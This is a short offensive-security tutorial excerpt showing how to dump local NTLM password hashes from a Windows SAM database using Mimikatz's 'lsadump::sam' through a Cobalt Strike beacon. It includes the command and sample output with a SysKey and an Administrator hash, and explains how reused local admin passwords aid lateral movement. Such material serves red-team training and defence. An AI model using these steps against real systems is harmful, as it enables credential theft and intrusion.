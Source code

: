 The Security Account Manager (SAM) database holds the NTLM hashes of local accounts only. These can be extracted with `lsadump::sam`. If a common local admin account is being used with the same password across an entire environment, this can make it very trivial to move laterally.

This command requires local admin privileges.
```shell
beacon> mimikatz lsadump::sam

Domain : SRV-1
SysKey : 5d11b46a92921b8775ca574306ba5355
Local SID : S-1-5-21-4124990477-354564332-720757739

SAMKey : fb5c3670b47e5ecae21f328b12d3103c

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 12a427a6fdf69be4917d30afc633f6fd

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount
```

